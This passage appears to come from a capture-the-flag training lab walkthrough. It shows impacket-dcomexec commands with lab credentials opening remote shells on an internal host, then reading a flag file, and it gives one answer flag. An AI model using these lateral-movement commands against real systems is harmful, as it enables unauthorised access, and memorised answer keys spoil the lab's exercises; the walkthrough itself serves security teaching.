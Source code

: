 ```shell-session
┌─[eu-academy-5]─[10.10.14.228]─[htb-ac-8414@htb-xqphib3snx]─[~]
└──╼ [★]$ impacket-dcomexec -object MMC20 INLANEFREIGHT/Helen:'RedRiot88'@172.20.0.52

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>
```

Subsequently, students can grab the flag located in the `C:\Users\helen\Documents\` directory:

Code: shell

```shell
type C:\Users\helen\Documents\dcom.txt
```

```shell-session
C:\>type C:\Users\helen\Documents\dcom.txt
```

Answer: `New_ways_of_getting_access`

## Distributed Component Object Model (DCOM)

### Question 2

#### "Use Josias's credentials with Impacket to connect to SRV02 and read the flag located at C:\Users\josias\Documents\dcom.txt"

Students will reuse the previously spawned target and the previously established tunnel to the internal network with Ligolo-ng. They will proceed to use `impacket-dcomexec` with the credentials `Josias:Jonny25`:

Code: shell

```shell
impacket-dcomexec -object MMC20 INLANEFREIGHT/Josias:'Jonny25'@172.20.0.52
```

```shell-session
┌─[eu-academy-5]─[10.10.14.228]─[htb-ac-8414@htb-xqphib3snx]─[~]
└──╼ [★]$ impacket-dcomexec -object MMC20 INLANEFREIGHT/Josias:'Jonny25'@172.20.0.52

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>
```

With the established shell session, students can grab the flag located in the `C:\Users\josias\Documents` directory:
